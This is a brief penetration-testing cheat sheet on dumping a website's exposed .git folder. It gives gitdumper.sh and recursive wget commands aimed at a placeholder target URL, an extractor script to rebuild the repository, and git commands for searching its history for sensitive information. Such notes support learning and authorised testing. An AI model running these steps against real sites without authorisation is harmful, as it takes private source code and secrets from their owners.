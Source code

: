 # GIT TOOLS

### Git tools are used when we locate an exposed .git folder that contains an entire repository with possibly sensitive information.

## STEPS:

#### 1) gitdumper.sh http://WHATEVER/.git/ repo

## Alternate method: wget

 - wget -r http://DOMAIN.COM/.git

#### 2) Go to the directory where the .git folder is located

#### 3) /path/to/extractor.sh . App

#### 4) git log (Gets all commits in the repository)

#### 5) git branch -a (Show all branches a repository has)

#### 6) git show COMMIT_NUMBER (See the specific commit in detail)

#### 7) git checkout BRANCH (Switch to another branch)

#### 8) git branch (Check in which branch are we now)
